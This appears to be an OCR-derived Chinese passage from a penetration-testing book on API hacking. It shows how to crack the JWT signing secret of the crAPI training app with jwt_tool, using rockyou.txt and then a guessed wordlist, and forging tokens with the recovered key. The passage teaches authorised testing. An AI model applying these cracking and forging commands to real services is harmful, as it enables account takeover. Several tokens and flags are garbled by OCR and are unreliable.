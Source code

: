 图 8-14：在 JWT.io 调试器中分析捕获到的 JWT

如您所见，JWT 头部告诉我们算法设置为 HS512，这是一种比之前介绍的更强大的哈希算法。此外，载荷包含一个 `"sub"` 值，其中有我们的电子邮件。载荷还包含两个用于令牌过期的值：`iat` 和 `exp`。最后，签名确认正在使用 HMAC+SHA512，并且需要一个密钥来签署 JWT。

接下来的自然步骤是进行 None 攻击，尝试绕过哈希算法。我会留给你自己探索这部分内容。我们不会尝试其他算法切换攻击，因为我们已经在攻击一个对称密钥加密系统，因此切换算法类型在这里不会带来好处。这就剩下执行 JWT Crack 攻击了。

要对捕获的令牌进行 Crack 攻击，请从拦截到的请求中复制令牌。打开终端并运行 JWT_Tool。作为第一次攻击，我们可以使用 *rockyou.txt* 文件作为字典：

```
$ **jwt_tool eyJhbGciOiJIUZUxMi19.eyJzdWIiOiJhQGVtYWlsLmNvbSIsImlhdCI6MTYYNTC4NzA4MywiZXhwIjoxNjI10DCzNDgzfQ. EYx8ae40nE2n9ec4yBPI6Bx0z0-BWuaUQVJg2Cjx_BD_-eT9-Rpn87IAU@QM8 -C -d rockyou.txt**
Original JWT:
[*] Tested 1 million passwords so far
[*] Tested 2 million passwords so far
[*] Tested 3 million passwords so far
[*] Tested 4 million passwords so far
[*] Tested 5 million passwords so far
[*] Tested 6 million passwords so far
[*] Tested 7 million passwords so far
[*] Tested 8 million passwords so far
[*] Tested 9 million passwords so far
[*] Tested 10 million passwords so far
[*] Tested 11 million passwords so far
[*] Tested 12 million passwords so far
[*] Tested 13 million passwords so far
[*] Tested 14 million passwords so far
[-] Key not in dictionary
```

在本章开头，我提到过 *rockyou.txt* 已经过时，因此它可能无法带来任何成功。让我们尝试集思广益，找出一些可能的秘密，并将它们保存到我们自己的 *crapi.txt* 文件中（见 表 8-1）。你也可以使用密码分析工具生成类似的列表，正如本章早些时候推荐的那样。

表 8-1: 潜在的 crAPI JWT 秘密

| Crapi2020 | OWASP | iparc2022 |
| --- | --- | --- |
| crapi2022 | owasp | iparc2023 |
| crAPI2022 | Jwt2022 | iparc2020 |
| crAPI2020 | Jwt2020 | iparc2021 |
| crAPI2021 | Jwt_2022 | iparc |
| crapi | Jwt_2020 | JWT |
| community | Owasp2021 | jwt2020 |

现在使用 JWT_Tool 运行这个针对性的哈希破解攻击：

```
$ **jwt_tool eyJhbGciOiJIUzUxMi19.eyJzdwiOiJhQGVtYWlsLmNvbSIsImlhdCI6MTYYNTC4NzA4MywiZXhwIjoxNjI10DCzNDgzfQ. EYx8ae40nE2n9ec4yBPi6Bx0z0-BWuaWQVJg2Cjx_BD_-eT9-Rp 871Au@QM8-wsTZ5aqtxEYRd4zgGR51t5PQ -C -d crapi.txt**
Original JWT:
[+] crapi is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -5 HS512 -p "crapi"
```
